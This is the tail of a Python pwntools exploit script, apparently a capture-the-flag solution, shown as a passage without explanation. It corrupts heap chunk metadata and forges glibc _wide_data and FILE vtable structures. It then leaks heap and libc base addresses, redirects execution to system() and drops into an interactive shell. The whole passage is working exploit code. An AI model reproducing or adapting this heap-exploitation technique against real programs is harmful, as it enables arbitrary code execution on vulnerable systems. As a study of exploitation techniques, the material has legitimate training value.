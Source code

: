 ```python
    read_bytes2(p64(0x821), True)
    # fix fd
    ptr_add2(0x810, b'\xe0', 0x10)
    # set prev_size and size
    read_bytes2(p64(0x820), True)
    read_bytes2(p64(0x60), True)

    ## mov to 0x4000 chunk
    ptr_add2(0x1800-0x10)
    # forge _wide_data
    ptr_add2(0x18)
    # set _wide_data->_IO_write_base
    read_bytes2(p64(0), True)
    # 
    ptr_add2(0x10)
    # set _wide_data->_IO_buf_base
    read_bytes2(p64(0), True)
    ptr_add2(0xe0-0x30-0x8)
    read_bytes2(p64(u64_ex("wvtable")),True)
    read_bytes2(p64(u64_ex("system")),True)
    ptr_add2(0x4000-0xf0)

    #debug(0x2D59)
    p.sendlineafter(b":",str(len(code)))
    p.sendlineafter(b":", code)
    sleep(0.1)
    
    p.send(data)

    sleep(1)
    heap_base = (u64(p.recv(8)) << 12) - 0x13000
    log("heap_base", heap_base)

    libc_base = u64(p.recv(8)) - 0x219ce0
    log("libc_base", libc_base)
    log("_wide_data", libc_base+0x156b0+0x1000)

    stderr_addr = libc_base + 0x21a860 # 0x21a6a0
    _IO_wfile_jumps = libc_base +  0x2160c0
    fake_wide_data = heap_base + 0x176d0
    _lock_addr = libc_base + (0x7f5eea04da60-0x7f5ee9e32000)
	# fix addresses
    data2 = data2.replace(p64(u64_ex("bk_size")), p64(stderr_addr-0x20))
    data2 = data2.replace(p64(u64_ex("widedata")), p64(fake_wide_data))
    data2 = data2.replace(p64(u64_ex("fvtable")), p64(_IO_wfile_jumps-(0x60-0x18)))
    data2 = data2.replace(p64(u64_ex("wvtable")), p64(fake_wide_data+(0xe0+0x8-0x68)))
    data2 = data2.replace(p64(u64_ex("system")), p64(libc_base + libc.sym["system"]))
    data2 = data2.replace(p64(u64_ex("_lock")), p64(_lock_addr))
    log("system", libc_base + libc.sym["system"])
    log("fake_wide_data",fake_wide_data)

    p.sendline(data2)
    
    p.interactive()


if __name__ == "__main__":
    #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6',checksec=False)
    libc = ELF('./libc.so.6',checksec=False)
    main()
```

